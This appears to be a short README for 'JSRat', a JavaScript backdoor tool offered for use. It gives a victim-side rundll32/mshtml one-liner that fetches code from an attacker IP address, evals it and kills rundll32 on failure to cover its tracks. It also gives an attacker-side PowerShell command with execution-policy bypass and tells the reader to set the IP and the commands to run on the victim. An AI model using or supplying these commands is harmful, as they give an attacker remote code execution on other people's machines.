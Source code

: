 #Javascript Backdoor

http://en.wooyun.io/2016/01/18/JavaScript-Backdoor.html

##Victim machine

```rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.174.131/connect",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}```

##Attacker machine

```powershell.exe -ExecutionPolicy Bypass -File JSRat.ps1```

##Important

Update the IP address in JSRat.ps1 (line 19) and the command to be executed on victim machine.

##Python implementation

https://github.com/Hood3dRob1n/JSRat-Py
